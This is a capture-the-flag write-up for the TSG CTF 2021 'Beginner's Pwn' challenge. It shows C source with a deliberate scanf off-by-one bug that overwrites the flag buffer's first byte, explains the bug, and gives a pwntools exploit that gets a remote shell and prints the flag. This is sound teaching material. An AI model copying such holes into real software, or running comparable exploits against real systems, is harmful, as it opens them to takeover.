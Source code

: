 # TSG CTF 2021 

## Beginner's Pwn 2021

> 100
> 
> I heard pwners could utilize an off-by-one error to capture the flag.
>
> `nc 34.146.50.22 30007`
>
> Hint for beginners:
> 
> * First of all, download the attachments and see the source file.
> * What you have to do is to guess the flag... No, fake the flag. That means you have to somehow make `strncmp(your_try, flag, length) == 0` hold.
> * There is little attack surface. Check the spec of suspicious functions.
>
> [`beginners_pwn.tar.gz`](beginners_pwn.tar.gz)

Tags: _pwn_ _x86-64_ _off-by-one_ _remote-shell_


## Summary

The description pretty much spells it out for you.


## Analysis

### Source Included    

```c
void win() {
    system("/bin/sh");
}

void init() {
    alarm(60);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);
}

int main(void) {
    char your_try[64]={0};
    char flag[64]={0};

    init();

    puts("guess the flag!> ");

    FILE *fp = fopen("./flag", "r");
    if (fp == NULL) exit(-1);
    size_t length = fread(flag, 1, 64, fp);

    scanf("%64s", your_try);

    if (strncmp(your_try, flag, length) == 0) {
        puts("yes");
        win();
    } else {
        puts("no");
    }
    return 0;
}
```

The challenge description clearly states this is an _off-by-one error_.  Since, `scanf` is our only input method, let's start with `man scanf`:

```
s      Matches a  sequence  of  non-white-space  characters;  the  next
       pointer  must be a pointer to the initial element of a character
       array that is long enough to hold the  input  sequence  and  the
       terminating null byte ('\0'), which is added automatically.  The
       input string stops at white space or at the maximum field width,
       whichever occurs first.
```

This: _that is long enough to hold the input sequence **and the terminating null byte ('\0')**_, is the key.

`scanf("%64s", your_try);` will accept `64` characters and terminate with a null byte at the 65th character overwriting the first byte of `flag` (IFF you input 64 characters).  IOW, _off-by-one_.  So, if `flag` is null, then to match with `strncmp`, `your_try` must also be null (actually just start with null since `strncmp` compares strings and strings end with _null_).

To get a match and `win()`, just send a null followed by 63 bytes of anything.  `scanf` will append the final `null` overwriting the first byte of `flag`.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

p = remote('34.146.101.4', 30007)

p.sendlineafter(b'> \n',b'\0' + 63 * b'A')
p.recvuntil(b'yes\n')
p.interactive()
```

Output:

```bash
# ./exploit.py
[+] Opening connection to 34.146.101.4 on port 30007: Done
[*] Switching to interactive mode
$ cat flag
TSGCTF{just_a_simple_off_by_one-chall_isnt_it}
```